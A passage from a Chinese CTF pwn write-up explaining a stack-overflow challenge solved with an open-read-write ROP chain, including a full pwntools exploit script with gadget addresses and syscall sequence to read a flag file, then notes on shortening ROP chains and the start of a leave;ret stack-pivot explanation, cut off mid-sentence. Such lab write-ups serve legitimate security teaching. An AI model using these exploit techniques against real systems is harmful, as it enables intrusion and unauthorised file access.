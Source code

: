 同时 main 函数中也增加了一个变量，我们栈溢出的 padding 不再是 0x20 而是 0x30 了，这点需要注意一下。

这时候我们是不能再 getshell 的：提示中给出这道题的思路为 orw，即连续使用 open+read+write 的系统/函数调用来把 flag 读出来，标准思路如下：

```python
# ===========exp starts===========
syscall_ret = 0x0000000000425E04
pop_rdi_ret = 0x00000000004018C2
pop_rsi_ret = 0x0000000000402828
pop_rdx_ret = 0x00000000004017CF
pop_rax_ret = 0x00000000004583C7
#  str_flag    = next(elf.search(b"/home/task3/flag4\x00"))
str_flag = 0x004A4019
buf_addr = 0x4DF000 + 0x800

#  ru(b'Give me your data: \n')
payload = b"a" * (0x20 + 8 + 0x10)

#  open("/flag", 0, 0);
payload += p64(pop_rdi_ret) + p64(str_flag)
payload += p64(pop_rsi_ret) + p64(0)
payload += p64(pop_rdx_ret) + p64(0)
payload += p64(pop_rax_ret) + p64(2)
payload += p64(syscall_ret)

#  read(3, buf, 0x40);
payload += p64(pop_rdi_ret) + p64(3)
payload += p64(pop_rsi_ret) + p64(buf_addr)
payload += p64(pop_rdx_ret) + p64(0x40)
payload += p64(pop_rax_ret) + p64(0)
payload += p64(syscall_ret)

#  write(1, buf, 0x40)
payload += p64(pop_rdi_ret) + p64(1)
payload += p64(pop_rax_ret) + p64(1)
payload += p64(syscall_ret)

s(payload)
# ===========exp ends=============
```

其中有几个值得注意的点：

- 漏洞程序的代码逻辑很简单，也没有额外打开其他的文件，因此可以确定 open 后得到的 fd 为 3（0,1,2 分别对应 stdin,stdout,stderr）。
- 我们需要找到一块地方作为缓冲区来存放我们读到的 flag，这需要确定一块可读可写的地址，可以通过 vmmap 来找到这样的地址（通常 .bss 段就满足要求）。
- 栈溢出的大小是有限的，这时候就要精简我们的 ROP 链，思路包括：使用一个参数的 gets/puts 函数来替代 read 和 write、系统调用前后参数寄存器的值不发生改变故去掉重复传入的 addr 和 length 参数（上面就采用了这个思路）、栈迁移等。

接下来看看本题的其他有趣的解法，不过由于长度限制，我们都需要先进行栈迁移：

即利用 `leave; ret`，这是一种常用的栈迁移技术，通常用于在栈溢出漏洞中执行攻击代码。它利用了函数调用栈的恢复机制，以实现将程序的控制流转移到攻击者所控制的恶意代码位置。

"leave" 指令是 x86 架构汇编语言中的一条指令，它用于函数的出口操作。它的作用是将栈帧恢复到调用者的栈帧状态，并将栈指针（Stack Pointer，ESP）设置为基址指针（Base Pointer，EBP）的值，相当于执行了以下指令序列：
